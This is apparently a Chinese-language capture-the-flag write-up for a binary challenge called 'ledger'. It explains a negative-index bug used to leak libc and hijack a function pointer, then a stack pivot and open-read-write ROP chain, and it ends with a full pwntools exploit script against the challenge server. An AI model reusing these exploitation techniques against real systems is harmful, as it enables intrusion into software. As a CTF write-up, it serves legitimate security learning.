


# ledger

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO |Full  |
|Canary|off   |
|NX    |on    |
|PIE   |off   |
|strip |no    |
|libc  |2.35-0ubuntu3.15|

## seccomp rules



## 解题思路

非堆菜单题，`store` 函数使用的是有符号判断，因此可以通过负索引改到 `book`
的值。同理，`inspect` 函数也可以通过负索引读取 `arr` 前面的值，如 `book`。

注意到 `book` 原来存放的是 `puts` 的函数地址，使用 `inspect` 就可以泄露 libc；
在执行 `print_message` 函数时，会跳转 `book` 函数指针，参数是 bss 上的 `buf`，
通过 `store` 就能直接修改。

我们现在有已知的 rdi 和 rsi (`read` 函数残留，等于上次开始 read 的位置，
因此也是已知值)，能不能控制 rsp 呢？在 libc 中翻找一会儿后，我找到了这么个
gadget: `mov ebp, edi; jmp qword ptr [rsi + 0x66]`。非常凑巧的是，因为没有开 PIE，
所以基地址足够低，32 位赋值得到的是有效的指针。控制了 rbp，只需要在 `[rsi + 0x66]`
的位置上填一个 `leave; ret` 就可以栈迁移回 bss 上了。剩下的就是布置 orw chain 读
flag 即可。

> [!NOTE]
> 这奇葩环境不知道怎么回事不能用 sendfile，我在那里试了半天，以为是文件名不对，
> 或者权限不对，把 getdents 和 stat 都搬出来了，搞半天文件名都正常，read + write
> 就没问题，浪费了我好多时间。

## EXPLOIT

```python
from pwn import *
context.arch = 'amd64'
def GOLD_TEXT(x): return f'\x1b[33m{x}\x1b[0m'
EXE = './ledger'

def payload(lo: int):
    global t
    if lo:
        t = process(EXE)
        if lo & 2:
            gdb.attach(t)
    else:
        t = remote('1.14.76.59', 21357)
    elf = ELF(EXE)
    libc = elf.libc

    def store(idx: int, val: int):
        t.sendlineafter(b'choice', b'1')
        t.sendlineafter(b'index', str(idx).encode())
        t.sendlineafter(b'value', hex(val).encode())

    def inspect(idx: int) -> int:
        t.sendlineafter(b'choice', b'2')
        t.sendlineafter(b'index', str(idx).encode())
        t.recvuntil(b'value:')
        return int(t.recvline(), 0)

    def print_message(msg: bytes):
        t.sendlineafter(b'choice', b'3')
        t.sendlineafter(b'length', str(len(msg)).encode())
        t.sendafter(b'message: ', msg)

    puts = inspect(-1)
    libc_base = puts - libc.symbols['puts']
    success(GOLD_TEXT(f'Leak libc_base: {libc_base:#x}'))
    libc.address = libc_base

    store(-1, libc_base + 0x15dc2f) # mov ebp, edi; jmp [rsi + 0x66]

    buf_addr = 0x404068
    gadgets = ROP(libc)
    chain1 = [
        # int fd = open("flag", O_RDONLY)
        gadgets.rdi.address, buf_addr + 0x70, # where "flag" is
        gadgets.rsi.address, 0,
        libc.symbols['open'],

        # read(fd, buf + 0x100, ...
        libc_base + 0x15bfd5, # xchg edi, eax; ret
        gadgets.rsi.address, buf_addr + 0x100,
        libc_base + 0x45f25, # add rsp, 0x28; ret
        # skip rsi+0x60 - rsi+0x70
    ]
    chain2 = [
        # ..., 0x50)
        gadgets.rdx.address, 0x50, 0,
        libc.symbols['read'],
        # write(1, buf + 0x100, 0x50)
        gadgets.rdi.address, 1,
        libc.symbols['write'],
        # exit(0)
        gadgets.rdi.address, 0,
        libc.symbols['_exit'],
    ]
    print_message(flat({
        8: chain1,
        0x66: libc_base + 0x4da83, # leave; ret
        0x70: b'flag',
        0x78: chain2,
    }, filler=b'\0'))

    t.recvuntil(b'DASCTF{')
    flag = 'DASCTF{' + t.recvuntil(b'}').decode()
    success(f'Flag is: {flag}')
    t.close()
```


